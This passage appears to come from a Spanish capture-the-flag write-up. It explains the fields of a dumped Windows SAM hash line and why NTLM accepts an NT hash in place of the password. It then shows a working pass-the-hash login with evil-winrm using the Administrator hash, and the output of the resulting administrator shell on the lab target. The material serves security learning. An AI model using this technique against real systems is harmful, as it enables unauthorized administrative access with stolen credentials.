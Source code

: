 Cada campo representa:

| Campo                      | Descripción |
|---------------------------|-------------|
| `Administrator`           | Nombre del usuario |
| `500`                     | RID (**Relative Identifier**) del usuario (500 = Administrator) |
| `aad3b435b51404eeaad3b435b51404ee` | **LM hash** (antiguo algoritmo, generalmente desactivado y lleno de este valor "vacío") |
| `3dc553ce4b9fd20bd016e098d2d2fd2e` | **NT hash** (hash NTLM de la contraseña del usuario) |
| `:::`                     | Reservado para otros campos, como comentarios o SID |

---

- El **NT hash** (o **NTLM hash**) es un hash **MD4** de la contraseña del usuario codificada en **Unicode (UTF-16LE)**.
- Es lo que utiliza Windows internamente para autenticar a los usuarios, especialmente en autenticaciones NTLM (por ejemplo, SMB, RDP si no se usa Kerberos).

>  A diferencia del hash LM (LAN Manager), el NT hash **no corta contraseñas largas** ni convierte todo a mayúsculas. Por eso es más seguro (aunque sigue siendo crackeable offline).



Ciertos protocolos de autenticación en Windows **no necesitan la contraseña en texto claro**, sino que **pueden usar directamente el NT hash** para autenticarte. Es decir:
Con el  NT hash correcto podemos insertarlo en una sesión SMB, RDP o WinRM con una herramienta que lo soporte, **el sistema lo aceptará como si fuera la contraseña**.

> El campo de LM hash sigue siendo obligatorio en la sintaxis, pero si no se usa, se pone el hash vacío típico (`aad3...`).


- El formato completo `usuario:RID:LM:NT:` sigue un estándar común en dumps del archivo SAM o del `NTDS.dit`.

**Ya podemos hacer passthehash**

```bash 

─$ evil-winrm -i 10.10.11.42 -u Administrator -H 3dc553ce4b9fd20bd016e098d2d2fd2e
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
administrator\administrator
*Evil-WinRM* PS C:\Users\Administrator\Documents> dir ..\Desktop\


    Directory: C:\Users\Administrator\Desktop


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-ar---         4/22/2025  10:02 AM             34 root.txt


*Evil-WinRM* PS C:\Users\Administrator\Documents>

``` 


